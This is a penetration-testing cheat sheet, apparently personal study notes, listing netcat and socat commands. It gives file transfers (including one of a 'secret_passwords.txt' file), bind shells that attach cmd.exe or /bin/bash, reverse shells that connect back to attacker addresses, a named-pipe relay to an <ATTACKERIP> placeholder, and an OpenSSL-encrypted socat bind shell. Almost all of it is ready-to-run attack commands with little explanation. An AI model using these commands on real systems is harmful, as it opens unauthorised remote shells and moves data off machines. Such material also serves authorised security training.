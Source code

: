 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

netcat and socat

Transferring files:

~~~bash
nc -nlvp 4444 > incoming.exe

nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
~~~

Binding session to process/executable:

~~~bash
nc -nlvp 4444 -e cmd.exe

nc -nv 10.11.0.22 4444

nc -v -n 10.10.14.32 7777 -e C:\windows\System32\cmd.exe
~~~

Reverse Shell:

~~~bash
nc -nlvp 4444

nc -nv 10.11.0.22 4444 -e /bin/bash
~~~

Netcat Relay (for netcat without -e option)

~~~bash
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc <ATTACKERIP> <ATTACKERPORT> 1>/tmp/backpipe
~~~

NetCat vs SoCat

~~~bash
nc <remote server's ip address> 80

socat - TCP4:<remote server's ip address>:80
~~~

~~~bash
nc -lvp localhost 443

socat TCP4-LISTEN:443 STDOUT
~~~

SoCat File Transfers

~~~bash
socat TCP4-LISTEN:443,fork file:secret_passwords.txt

socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
~~~

SoCat Reverse Shells

~~~bash
socat -d -d TCP4-LISTEN:443 STDOUT

socat TCP4:10.11.0.22:443 EXEC:/bin/bash
~~~

SoCat Encrypted Bind Shells

~~~bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt

cat bind_shell.key bind_shell.crt > bind_shell.pem

socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash

socat - OPENSSL:10.11.0.4:443,verify=0
~~~

